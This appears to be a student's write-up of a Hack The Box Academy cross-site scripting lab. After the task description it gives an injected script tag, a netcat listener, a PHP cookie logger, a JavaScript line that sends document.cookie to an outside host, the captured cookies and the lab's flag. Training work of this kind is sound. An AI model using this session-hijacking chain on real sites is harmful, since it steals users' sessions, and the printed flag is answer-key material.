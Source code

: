 # Skills Assessment

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

![](https://academy.hackthebox.com/storage/modules/103/xss\_skills\_assessment\_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag

**Questions**

What is the value of the 'flag' cookie?

```bash
#http://10.129.238.42/assessment/
# found comment section, try to find xs there
"><script src="http://10.10.15.15"></script>
nc -nvlp 80

#now we create index.php & script.js
nano index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['10.129.238.42']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

nano script.js
new Image().src='http://10.10.15.15/index.php?c='+document.cookie

sudo php -S 10.10.15.15

#now call it
"><script src="http://10.10.15.15/script.js"></script>
GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1709471167;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
HTB{cr055_5173_5cr1p71n6_n1nj4}
```
